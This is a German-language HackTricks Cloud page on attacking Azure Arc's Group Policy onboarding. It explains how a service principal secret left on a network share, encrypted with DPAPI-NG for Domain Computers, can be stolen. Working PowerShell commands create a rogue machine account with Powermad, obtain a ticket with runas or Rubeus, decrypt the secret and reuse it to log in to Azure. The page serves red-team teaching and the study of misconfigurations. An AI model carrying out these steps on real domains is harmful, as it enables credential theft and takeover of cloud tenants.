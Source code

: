 # Az - Azure Arc Anfälliges GPO-Bereitstellungsskript

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

- Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
- Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
- Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys senden.

</details>

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (beigetretene Domänenserver) in Azure Arc mithilfe der Gruppenrichtlinienobjekt-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit bereit, das für die Initiierung des Onboarding-Verfahrens erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des DeployGPO.ps1-Skripts werden die folgenden Aktionen ausgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das Onboarding-Skript EnableAzureArc.ps1 in den für den Onboarding-Prozess erstellten zugewiesenen Netzwerkfreigabebereich, der auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Sysadmins zwei Hauptparameter bereitstellen: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der den Freigabebereich hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere erforderliche Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im AzureArcDeploy-Verzeichnis auf der angegebenen Freigabe mithilfe der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Nachweise hierfür finden sich im DeployGPO.ps1-Skript, wo die Verschlüsselung durch Aufrufen von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben durchgeführt wird. Der Deskriptor besteht aus den Gruppen-SIDs Domain Computer und Domain Controller, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen Domain Controllers und Domain Computers entschlüsselt werden kann, wie in den Skriptkommentaren festgehalten.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Ausnutzen

Wir haben die folgenden Bedingungen:

1. Wir sind erfolgreich in das interne Netzwerk eingedrungen.
2. Wir haben die Möglichkeit, ein Computerkonto im Active Directory zu erstellen oder die Kontrolle darüber zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das Verzeichnis AzureArcDeploy enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten besteht darin, das Maschinenkontingent auszunutzen. Eine andere Methode besteht darin, ein Maschinenkonto durch verwundbare ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Nachdem ein Maschinenkonto erhalten wurde, ist es möglich, sich mit diesem Konto anzumelden. Wir können entweder das runas.exe-Kommando mit dem netonly-Flag verwenden oder pass-the-ticket mit Rubeus.exe verwenden.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Durch das Speichern des TGT für unser Computerkonto im Speicher können wir das folgende Skript verwenden, um das Dienstprinzipalgeheimnis zu entschlüsseln.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei sammeln, die auf demselben Netzwerkfreigabe wie die encryptedServicePrincipalSecret-Datei gespeichert ist. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als kompromittierter Serviceprinzipal zu authentifizieren.

## Referenzen

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
